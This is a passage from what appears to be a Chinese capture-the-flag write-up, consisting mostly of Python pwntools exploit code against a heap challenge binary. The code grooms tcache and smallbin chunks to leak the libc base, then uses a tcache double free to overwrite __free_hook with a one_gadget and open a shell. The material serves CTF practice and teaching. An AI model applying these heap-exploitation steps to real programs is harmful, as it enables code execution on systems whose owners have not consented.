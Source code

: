 ```python
free(4)
free(5)
for i in range(7,10):
    free(i)

# these three chunks will be added
# into smallbin double link
free(6)
free(3)
free(0)

for i in range(7):
    alloc(0xf0) # 0-6

alloc(0)     # 7 | rewrite the LSB of fd
alloc(0xf8)  # 8 | rewrite the LSB of fd and next chunk's size

free(0)
free(1)
free(2)
free(3)
free(5)
free(6)

free(4) # trigger here

show(8)
libc_base=u64(p.recv(6)+2*'\x00')-0x3ebca0
log.info('libc base is :'+hex(libc_base))

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>只要有了重叠堆块，tcache下的double free简直不要太简单,想覆盖什么覆盖什么:</font></br>

```python
for i in range(7):
    alloc(0xf0)

alloc(0xf0)

# casually free some chunks to
# avoid alloc to much 
free(1)
free(2)
free(3)

# double free here
free(8)
free(9)

alloc(0xf0,p64(libc_base+elf.symbols['__free_hook']))
alloc(0xf0,p64(libc_base+one_gadget))
alloc(0xf0,p64(libc_base+one_gadget))

free(0)


p.interactive()

```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>做完了:)</font></br>